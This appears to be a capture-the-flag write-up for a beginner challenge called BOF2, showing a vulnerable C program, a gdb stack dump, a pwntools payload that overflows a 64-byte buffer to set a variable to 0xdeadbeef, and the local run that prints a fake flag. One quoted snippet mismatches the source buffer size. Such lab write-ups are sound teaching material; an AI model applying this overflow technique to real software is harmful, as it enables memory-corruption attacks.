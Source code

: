 # BOF2

## Overview
In this challenge, there is a *buffer overflow vulnerability* in the main function. The goal is to overflow into the next variable and change it to `0xdeadbeef`
## Source code summary

```c
int main(){
	int correct = 0;
	char bof[64];
	
	scanf("%s", bof);
	
	if(correct != 0xdeadbeef) {
		puts("you suck!");
		exit(0);
	}
	win();
	return 0;
}

```

We need to overflow in the `correct` and change it to `0xdeadbeef` so that we can call the win function.

## Vulnerability 

```c
char buf[32];
scanf("%s", buf);	
```

`scanf` does no bounds checking.

### Exploit

Overflow into `correct` variable

Stack
I entered `A`  x 64
```
x/24wx $esp
0xffffcff0:	0x0804a028	0xffffd00c	0xf7ffda50	0x080492dc
0xffffd000:	0xffffffff	0xf7fc9694	0xf7ffd608	0x41414141
0xffffd010:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd020:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd030:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd040:	0x41414141	0x41414141	0x41414141	0x00000000
```

The address of the `correct` variable is exactly 64 bytes after the  `bof` variable

### Payload

The payload = 64 bytes to fill the buffer  + `0xdeadbeef`

```python
payload = flat(
        cyclic(64),
        0xdeadbeef
)
```

```sh
python exploit.py 
[*] '/usr/lib/i386-linux-gnu/libc.so.6'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 10 cached gadgets for './bof2'
[+] Starting local process '/home/hacker/REPO/ctf-pwn/hackucf/bof2/bof2': pid 5164
[*] Switching to interactive mode
fake_flag
```

GOT the flag